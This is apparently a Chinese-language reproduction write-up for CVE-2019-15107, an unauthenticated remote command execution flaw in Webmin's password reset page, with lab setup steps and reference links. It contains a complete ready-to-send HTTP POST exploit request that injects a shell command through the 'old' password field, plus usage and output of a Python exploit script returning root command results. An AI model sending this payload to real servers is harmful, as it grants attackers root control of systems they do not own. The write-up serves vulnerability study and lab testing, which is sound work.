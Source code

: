 （CVE-2019-15107）Webmin 远程命令执行漏洞
=========================================

一、漏洞简介
------------

Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

二、漏洞影响
------------

Webmin \<= 1.920

三、复现过程
------------

### 环境搭建

执行如下命令，启动webmin 1.910：

    docker-compose up -d

执行完成后，访问[https://0-sec.org:10000，忽略证书后即可看到webmin的登录页面。](https://0-sec.org:10000，忽略证书后即可看到webmin的登录页面。)

### 复现

参考链接中的数据包是不对的，经过阅读代码可知，只有在发送的user参数的值不是已知Linux用户的情况下（而参考链接中是user=root），才会进入到修改/etc/shadow的地方，触发命令注入漏洞。

发送如下数据包，即可执行命令id：

    POST /password_change.cgi HTTP/1.1
    Host: 0-sec.org:10000
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Cookie: redirect=1; testing=1; sid=x; sessiontest=1
    Referer: https://your-ip:10000/session_login.cgi
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 60

    user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2

![](./.resource/(CVE-2019-15107)Webmin远程命令执行漏洞/media/rId27.png)

### python usage:

python CVE\_2019\_15107.py <https://0-sec.org:10000> cmd

    C:\Users\CTF\Desktop>python CVE_2019_15107.py https://10.10.20.166:10000 id

     _______           _______       _______  _______  __     _____       __    _______  __    _______  ______
    (  ____ \|\     /|(  ____ \     / ___   )(  __   )/  \   / ___ \     /  \  (  ____ \/  \  (  __   )/ ___      | (    \/| )   ( || (    \/     \/   )  || (  )  |\/) ) ( (   ) )    \/) ) | (    \/\/) ) | (  )  |\/   )  )
    | |      | |   | || (__             /   )| | /   |  | | ( (___) |      | | | (____    | | | | /   |    /  /
    | |      ( (   ) )|  __)          _/   / | (/ /) |  | |  \____  |      | | (_____ \   | | | (/ /) |   /  /
    | |       \ \_/ / | (            /   _/  |   / | |  | |       ) |      | |       ) )  | | |   / | |  /  /
    | (____/\  \   /  | (____/\     (   (__/\|  (__) |__) (_/\____) )    __) (_/\____) )__) (_|  (__) | /  /
    (_______/   \_/   (_______/_____\_______/(_______)\____/\______/_____\____/\______/ \____/(_______) \_/
                              (_____)                              (_____)
                                         python By jas502n



    vuln_url= https://0-sec.org:10000/password_change.cgi

    Command Result = uid=0(root) gid=0(root) groups=0(root)

四、参考链接
------------

> <https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html>
> <https://www.exploit-db.com/exploits/47230>
> <https://blog.firosolutions.com/exploits/webmin/>
